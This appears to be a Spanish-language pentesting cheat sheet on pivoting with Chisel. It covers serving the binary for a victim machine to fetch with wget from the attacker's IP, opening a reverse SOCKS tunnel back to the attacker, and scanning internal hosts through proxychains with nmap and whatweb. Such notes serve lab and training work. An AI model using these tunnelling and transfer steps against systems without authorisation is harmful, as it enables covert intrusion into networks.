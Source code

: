 ## Chisel 

Tags: #Chisel #PortForwarding #LocalForwarding #DinamicForwarding 

## Local Port Forwarding 

Nos permite redirigir todo el trafico entrante de un puerto local hacia un puerto remoto.

* **Server -> Windows** 
* **Cliente -> Kali**

#### Forma 1 de descarga
Ingresamos a la pagina para descargarnos 'Chisel'
```python 
❯ https://github.com/jpillora/chisel > Releases > 'chisel_1.9.1_linux_amd64.gz' 
❯ gunzip chisel.gz
❯ chmod +x chisel
```

#### Forma 2 de descarga

1. Podemos clonarlo a nuestra maquina victima 
```bash
❯ git clone https://github.com/jpillora/chisel       # Nos descargamos el Chisel
```

Dentro de Chisel 
```bash
❯ go build -ldflags “-s -w” .                        # Nos ayudara a reducir el tamaño del compilado 
❯ upx Chisel                                         # Para reducir aun mas el tamaño
```

2. Debemos transferirlo a la maquina victima mediante un servidor HTTP 
```bash 
❯ python3 -m http.server 80    # Maquina de atacante 
❯ wget http://IP/chisel        # Maquina victima 
```

#### Forma de ejecutar el Chisel 

* De esta manera nos podemos traer un puerto especifico
```bash
❯ ./chisel server --reverse -p 1234                                                 # Server 'Maquina de atacante'
❯ ./chisel client <IP-Server>:1234 R:<Port-Local-a-Abrir>:<IP-Local>:<Port-Traemos> # Cliente 'Maquina victima'

	# R = Remote Port Forwarding
	# IP-Server = IP de la maquina atacante
	# Port-Server = Puerto de la maquina atacante
	# Port-Local = Puerto que vamos a traer de la maquina victima
	# IP-Local = IP del Localhost de la maquina victima 
	# Port-Traemos = Puerto que vamos a abrir en nuestra maquina
```

* De esta manera nos crea un túnel desde la maquina de atacante hacia la maquina victima
```bash
❯ ./chisel server --reverse -p 1234                                             # Server 'Maquina de atacante'
❯ ./chisel client <IP-Server>:1234 R:socks                                      # Cliente 'Maquina victima'

	# R = Remote Port Forwarding
	# IP-Server = IP de la maquina atacante
	# Port-Server = Puerto de la maquina atacante
     # socks = Abre el puerto 1080 de nuestra de atacante y nos crea un tunel para llegar a la maquina victima 
```

Debemos de hacer los siguientes cambios después de crear el túnel 
```bash 
❯ nvim /etc/proxychains.conf 

# Comentamos el Dinamic_chain, este solo se habilita cuando vamos pasando por varios tuneles
# Activamos el strick_chain, este solo es cuando tenemos un tunel 
# Hasta abajo del archivo agregamos lo siguiente:

sock5 127.0.0.1 1080 
```

### Comandos con Proxychain

Forma de verificar y de como debemos de ir colocando los comandos en nuestra maquina de atacante.
* Siempre debemos de usar **'proxychains'** antes de cada comando
```bash 
# NMAP
❯ seq 1 65535 | xargs -P 500 -I {} proxychains nmap -sT -Pn -p{} -open -T5 -v -n ❮Target IP❯ 2>&1 | grep "tcp open"      # Proxychains nos ayudara que el comando pase por el tunel creado por chisel 
	# P = Tareas en paralelo
❯ proxychains nmap --top-ports 500 --open -T5 -v -n <IP> -sT -Pn -oG allports 2>&1 | grep -vE "timeout|OK"
❯ proxychains nmap -sT -Pn -sCV -p22,.. <IP> -oN Targeted

# WHATWEB
❯ proxychains whatweb ❮Target IP❯     # Escaneo con whatweb a la maquina victima 
```

## Dinamic Port Forwarding 

Modificaremos:
```bash
❯ nvim /etc/proxychains.conf                            # Modificaremo este archivo en nuestra maquina
	socks4 127.0.0.1 1080                              # Haremos que la conexion para nuestra maquina se efectue en el puerto 1080
```

```bash
❯ ssh < user>@< IP> -D 1080                             # Para conectarnos por ssh (D=Dinamic Port Forwarding) y colocamos el puerto que anteriormente habiamos configurado.
❯ proxychains vncviewer -passwd secret 127.0.0.1:5901   # Nos conectamos por vncviewer y nos arrojara el cuadro remoto de la conexion (5901=puerto remoto expuesto en la maquina victima)

	# secret -> Archivo que contiene la passwd para la conexion
```